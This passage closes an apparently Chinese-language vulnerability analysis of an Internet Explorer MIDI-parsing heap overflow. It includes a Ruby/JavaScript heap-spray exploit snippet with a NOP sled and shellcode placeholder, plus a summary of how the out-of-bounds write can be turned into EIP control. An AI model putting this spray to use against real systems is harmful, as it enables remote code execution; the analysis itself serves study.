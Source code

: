 ```
      # 4. Extract string from the big block
      # 5. Spray
      spray = &lt;&lt;-JS
      var heap_obj = new heapLib.ie(0x10000);
  
      var code = unescape("#`{`shellcode`}`");
      var nops = unescape("%u0c0c%u0c0c");
  
      while (nops.length &lt; 0x1000) nops+= nops;
      var shellcode =  nops.substring(0,0x800 - code.length) + code;
      while (shellcode.length &lt; 0x40000) shellcode += shellcode;
  
      #`{`js_extract_str`}`
  
      heap_obj.gc();
      for (var i=0; i &lt; 600; i++) `{`
        heap_obj.alloc(block);
      `}`
  
      JS
  
      spray = heaplib(spray, `{`:noobfu =&gt; true`}`)
      return spray
    end
```

<br style="text-align: left">

**0x03 小结 **<br style="text-align: left">



漏洞场景：

程序(iexplore.exe)解析特殊构造的文件(mid)时，在内存中可找到有内存分配动作(winmmAlloc)，分配的内存大小一定(0x400)，如果解析特殊文件(mid中音轨事件为打开音符)会使程序在分配到的内存地址范围之外(0x419&gt;0x400)有改变大小动作(使0x419偏移处的值+1)。

利用方法：

可以通过与这里相同的js的构造特殊内存结构的方法来利用这个改变动作来控制eip。<br style="text-align: left">

**参考文献**

林桠泉.      漏洞战争：软件漏洞分析精要[M]. 北京:电子工业出版社, 2016.

<br style="text-align: left">
